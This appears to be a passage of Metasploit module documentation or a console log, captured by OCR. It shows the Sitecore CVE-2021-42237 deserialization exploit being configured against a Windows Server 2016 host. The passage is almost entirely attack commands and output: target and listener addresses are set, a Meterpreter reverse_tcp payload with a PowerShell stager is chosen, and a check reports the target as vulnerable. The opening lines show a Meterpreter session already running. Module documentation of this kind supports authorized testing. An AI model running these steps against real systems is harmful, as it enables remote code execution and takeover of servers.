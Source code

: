 ```
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```


### Sitecore 8.2 rev. 180406 on Server 2016 - Windows Command

```
msf6 payload(windows/x64/meterpreter/reverse_tcp) > use exploit/windows/http/cve_2021_42237[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/cve_2021_42237) > set LHOST 172.20.223.94
LHOST => 172.20.223.94
msf6 exploit(windows/http/cve_2021_42237) > set RHOSTS 172.20.211.198
RHOSTS => 172.20.211.198
msf6 exploit(windows/http/cve_2021_42237) > set VHOST NewInstance1
VHOST => NewInstance1
msf6 exploit(windows/http/cve_2021_42237) > show options

Module options (exploit/windows/http/cve_2021_42237):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:hos
                                         t:port][...]
   RHOSTS     172.20.211.198   yes       The target host(s), see https://github.com/rapid
                                         7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on
                                         . This must be an address on the local machine o
                                         r 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is ran
                                         domly generated)
   TARGETURI  /                yes       Base path of Sitecore
   URIPATH                     no        The URI to use for this exploit (default is rand
                                         om)
   VHOST      NewInstance1     no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, proces
                                        s, none)
   LHOST     172.20.223.94    yes       The listen address (an interface may be specified
                                        )
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   PowerShell Stager


msf6 exploit(windows/http/cve_2021_42237) > check
[*] 172.20.211.198:80 - The target appears to be vulnerable. Response.ashx is accessible and appears to be deserializing data!
```